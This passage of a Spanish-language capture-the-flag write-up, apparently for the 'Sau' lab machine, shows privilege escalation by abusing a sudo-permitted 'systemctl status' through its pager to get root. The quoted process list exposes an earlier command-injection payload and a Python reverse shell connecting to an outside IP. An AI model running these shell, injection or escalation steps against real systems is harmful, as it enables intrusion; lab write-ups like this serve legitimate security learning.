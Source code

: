 Listamos los privilegios que posee nuestro usuario

```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Nos `convertimos` en usuario `root` usando el `pager`, este concepto está explicado en [https://gtfobins.github.io/gtfobins/systemctl/#sudo](https://gtfobins.github.io/gtfobins/systemctl/#sudo)

```
puma@sau:/var/backups$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-09-30 15:15:10 UTC; 2h 19min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 868 (python3)
      Tasks: 13 (limit: 4662)
     Memory: 313.0M
     CGroup: /system.slice/trail.service
             ├─  868 /usr/bin/python3 server.py
             ├─ 1216 /bin/sh -c logger -p auth.info -t "maltrail[868]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTk>
             ├─ 1217 /bin/sh -c logger -p auth.info -t "maltrail[868]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTk>
             ├─ 1220 sh
             ├─ 1221 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.29",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os>
             ├─ 1222 /bin/sh
             ├─ 1259 script /dev/null -c bash
             ├─ 1260 bash
             ├─ 9039 gpg-agent --homedir /home/puma/.gnupg --use-standard-socket --daemon
             ├─16948 sudo /usr/bin/systemctl status trail.service
             ├─16949 /usr/bin/systemctl status trail.service
             └─16950 pager

Sep 30 16:59:01 sau crontab[6200]: (puma) LIST (puma)
Sep 30 16:59:03 sau sudo[8441]:     puma : TTY=pts/1 ; PWD=/home/puma ; USER=root ; COMMAND=list
Sep 30 16:59:03 sau nologin[8481]: Attempted login by UNKNOWN (UID: 1001) on UNKNOWN
Sep 30 17:19:05 sau sudo[16730]:     puma : TTY=pts/1 ; PWD=/home/puma ; USER=root ; COMMAND=list
Sep 30 17:33:50 sau sudo[16946]:     puma : TTY=pts/1 ; PWD=/var/backups ; USER=root ; COMMAND=list
Sep 30 17:34:02 sau sudo[16947]: pam_unix(sudo:auth): conversation failed
Sep 30 17:34:02 sau sudo[16947]: pam_unix(sudo:auth): auth could not identify password for [puma]
Sep 30 17:34:02 sau sudo[16947]:     puma : command not allowed ; TTY=pts/1 ; PWD=/var/backups ; USER=root ; COMMAND=/usr/bin/systemctl
Sep 30 17:35:09 sau sudo[16948]:     puma : TTY=pts/1 ; PWD=/var/backups ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Sep 30 17:35:09 sau sudo[16948]: pam_unix(sudo:session): session opened for user root by (uid=0)
!sh
# whoami
root
```
